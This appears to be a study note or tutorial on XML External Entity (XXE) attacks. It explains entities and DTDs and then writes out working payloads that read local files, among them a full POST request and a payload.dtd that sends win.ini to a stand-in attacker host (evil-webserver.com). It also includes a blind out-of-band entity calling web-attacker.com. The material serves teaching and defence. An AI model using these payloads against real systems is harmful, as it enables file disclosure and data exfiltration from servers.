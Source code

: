 # Vulnerability: XXE 

XXE = XML External Entity

This is a type of attack that targets `XML`[extensible markup language] parsers. The attack works by loading an `External Entity` into valid `XML`. This attack can lead to `data disclosure`, `dos`,`ssrf` and even `port scanning` of local resources.

## XML and its ENTITYs

### XML Entities

A way of representing an item of data within an `XML` doc. Certain entities are built in to the spec i.e `&lt;` and `&gt;` represent the chars `< >`, these are metachars use to denote `XML` tags and must be represented using their entities when they appear in data.

```xml
<!DOCTYPE foo [ <!ENTITY myentity "my entity val" > ]>
```

Now we could use `&myentity;` and it would be replaced with `"my entity value"`.

### What is a DTD

A DTD is a Document Type Definition.
A DTD defines the structure anf the legal elements and attributes of an XML document. A DTD can be `Internal` or `External`, or a hybrid of the two.

### Why use a DTD

With a DTD, independent groups of peopl can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 

### Internal DTD Declaration

If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```
### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file.

#### What are `XML external entities`?

A custon entity whose definition is located outside of the `DTD` where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` from which the value of the entity should be loaded.
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd"> // the external dtd is being declared here with the SYSEM keyword
<note> // the dtd being being used -> not malicious YET
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```
Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)> 
```
`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contens of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
The above `.dtd` file might be used as follows
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```
`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
### Sumary
- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

# Injection

When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrappen in XML being sent to the server to be processed:
- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request

# Out of band

While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:

```bash
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```
And here is what that `payload.dtd` contains
```
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.

# Blind XXE

In many cases XXE will be blind, meaning the application will not return the values of any defined external entities in its response. Bling XXE vulns can still be detected and exploited, but more advanced techniques are required. 

	- Trigger out-of-band network interactions, sometimes exfiltrating sensitive data within the interaction data
	- Trigger XML parsing errors in such a way that the error messages contain sensitive data

### Out of band techniques

Def. an external entitity: 

` <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]> `




## Learn more 

[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)

[PortSwigger Academy](https://portswigger.net/web-security/xxe)

[H1 Report](https://hackerone.com/reports/312543)

[PortSwigger](https://portswigger.net/web-security/xxe)

[Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/blog/cracking-the-lens-targeting-https-hidden-attack-surface)
